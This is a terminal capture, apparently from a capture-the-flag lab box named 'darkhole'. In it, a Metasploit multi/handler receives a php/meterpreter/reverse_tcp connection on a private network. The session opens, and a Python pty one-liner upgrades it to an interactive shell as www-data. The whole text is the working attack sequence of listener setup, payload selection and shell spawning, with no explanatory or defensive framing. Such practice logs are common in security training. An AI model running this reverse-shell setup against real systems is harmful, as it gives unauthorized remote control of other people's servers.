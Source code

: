 ```
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`

                             https://metasploit.com


       =[ metasploit v6.1.4-dev                           ]
+ -- --=[ 2162 exploits - 1147 auxiliary - 367 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: Enable HTTP request and response logging 
with set HttpTrace true

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LHOST 192.168.136.146
LHOST => 192.168.136.146
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.136.146:4444 
[*] Sending stage (39282 bytes) to 192.168.136.151
[*] Meterpreter session 1 opened (192.168.136.146:4444 -> 192.168.136.151:41248) at 2024-04-15 21:04:02 +0800

meterpreter > shell
Process 4635 created.
Channel 0 created.
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@darkhole:/var/www/html/upload$ 

```